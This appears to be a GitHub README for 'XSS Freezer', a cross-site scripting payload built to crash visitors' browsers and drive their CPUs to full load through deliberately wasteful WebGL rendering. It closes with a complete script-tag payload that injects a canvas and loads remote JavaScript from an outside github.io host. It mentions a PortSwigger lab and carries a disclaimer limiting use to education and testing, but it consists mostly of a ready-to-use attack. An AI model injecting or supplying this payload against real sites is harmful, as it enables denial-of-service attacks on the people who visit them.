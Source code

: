 <b>XSS Freezer</b> is an XSS vulnerability (Stored, Reflected) payload that crashes the browser and warms up the CPU due to a 100% load. CPU load is achieved due to WebGL 2.0 with extreme settings, complex shaders, mass particle rendering, interactivity, and negative code optimization (i.e. not for the benefit but for the detriment of the user).

The script will work if the page is missing:
* SOP (Same-Origin Policy);
* CSP (Content Security Policy);
* Input validation;
* And other technologies that prevent XSS.

For the test, you can run the laboratory in https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

⚠️ Important: This payload is intended solely for educational purposes and testing on protected systems. Use in real attacks violates laws and ethical standards. The author of the repository is not responsible for the use of this payload by third parties.

https://github.com/user-attachments/assets/e35d05a5-1d54-42a2-89e8-511a6380acd5

------------------------------------------

[224 characters]
```<script>var c=document.createElement('canvas');c.id='cpuCanvas';document.body.appendChild(c);var r=document.createElement('script');r.src='//0-dayff13r.github.io/XSS-Freezer/freezer.js';document.body.appendChild(r);</script>```
